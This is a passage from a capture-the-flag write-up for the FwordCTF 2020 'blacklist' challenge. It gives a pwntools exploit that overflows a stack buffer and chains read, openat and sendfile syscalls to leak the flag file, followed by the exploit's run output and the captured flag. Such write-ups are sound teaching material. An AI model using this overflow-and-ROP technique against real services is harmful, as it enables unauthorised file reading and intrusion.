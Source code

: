 This is similar with what I did for [_syscall as a service_](https://github.com/datajerk/ctf-write-ups/blob/master/nahamconctf2020/saas/README.md).

The parameters are in Linux ABI order so one just needs to type `man 2 syscall name`, and call `syscall` with first the name of the syscall, e.g. `constants.SYS_read.real`, followed by the arguments in the same order as the man page.

> NOTE: It is import that `binary.context` is set (see Setup section), or pwnlib `constants` will default to `i386`.


### Get the flag

```
#p = process(binary.path)
p = remote('blacklist.fword.wtf', 1236)

fd = 3
payload  = offset * b'A'
payload += syscall(constants.SYS_read.real,constants.STDIN_FILENO.real,binary.bss(),len(flagfile))
payload += syscall(constants.SYS_openat.real,0,binary.bss(),0)
payload += syscall(constants.SYS_sendfile.real,constants.STDOUT_FILENO.real,fd,0,filesize)

p.sendline(payload)
p.send(flagfile)
log.info(p.recv(filesize))
```

Kind of anticlimactic at this point.  Just three syscalls.

> `fd` needs to be found manually (I guess one could script GDB).  I just set a breakpoint at `*0x401dd3` (RIP, reported from the core file above) before sending the payload and followed step by step until the `openat` syscall.  `rax` (`fd`) was always 3.

Output:

```
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/blacklist/blacklist'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/pwd/datajerk/fwordctf2020/blacklist/blacklist': pid 23913
[*] Process '/pwd/datajerk/fwordctf2020/blacklist/blacklist' stopped with exit code -11 (SIGSEGV) (pid 23913)
[!] Found bad environment at 0x7fff65577fbc
[+] Parsing corefile...: Done
[*] '/pwd/datajerk/fwordctf2020/blacklist/core.23913'
    Arch:      amd64-64-little
    RIP:       0x401dd3
    RSP:       0x7fff65576108
    Exe:       '/pwd/datajerk/fwordctf2020/blacklist/blacklist' (0x401000)
    Fault:     0x616161616161616a
[*] offset: 72
[*] rip: 0x401dd3
[*] Loaded 126 cached gadgets for './blacklist'
[+] Opening connection to blacklist.fword.wtf on port 1236: Done
[*] b'FwordCTF{th3_n4M3_1s_El1Z4be7h_K33n}\n\n'
```
